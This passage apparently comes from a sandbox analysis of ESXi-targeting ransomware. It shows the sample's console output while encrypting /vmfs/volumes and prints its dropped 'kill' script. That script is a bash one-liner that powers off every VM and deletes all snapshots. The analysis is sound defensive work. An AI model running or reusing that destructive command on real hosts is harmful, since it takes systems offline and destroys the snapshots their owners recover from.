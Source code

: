 ### <a name="console-output"></a>Console Output

It is evident from the console output that the detonation was successful. The sample was able to encrypt files in the
`/vmfs/volumes` directory and change the MOTD.

```
[*] Count of arguments: 5
 [1] --dir
 [2] /vmfs/volumes
 [3] --esxi
 [4] --debug
 [5] --motd
 
[+] Start killing ESXi servers! No skipping VMs (be careful with DC)
[+] PID of child: 163
[+] Waiting for finish child process!
[+] /vmfs/volumes/8c24abb1-347d6a00-ee6f-2ea3f7f2bb5f/psiEgFyfQdlqQ/psiEgFyfQdlqQ.vmx added to thread pool!
[+] /vmfs/volumes/8c24abb1-347d6a00-ee6f-2ea3f7f2bb5f/psiEgFyfQdlqQ/psiEgFyfQdlqQ.vmdk added to thread pool!
[+] /vmfs/volumes/8c24abb1-347d6a00-ee6f-2ea3f7f2bb5f/psiEgFyfQdlqQ/psiEgFyfQdlqQ.vmxf added to thread pool!
[+] Changing message of the day!

```

### <a name="terminate-vms"></a>Terminate VMs on ESXi Host

The sample writes bash code into a shell script called `kill` in the current working directory and executes it.
The snap below shows the trace recorded by [ELFEN](https://github.com/nikhilh-20/ELFEN).

![Write to 'kill' script](assets/images/write_kill_script_trace.png "Write to 'kill' script")
![Execute 'kill' script](assets/images/exec_kill_script.png "Execute 'kill' script")

The `kill` script is considered as a dropped file by [ELFEN](https://github.com/nikhilh-20/ELFEN) and is available to be downloaded. Its contents are shown below:
```bash
$ cat kill 
vim-cmd hostsvc/autostartmanager/enable_autostart 0; for i in $(vim-cmd vmsvc/getallvms | awk '{print $1}' | grep -Eo '[0-9]{1,5}'); do vim-cmd vmsvc/power.off $i; vim-cmd vmsvc/snapshot.removeall $i; done;
```
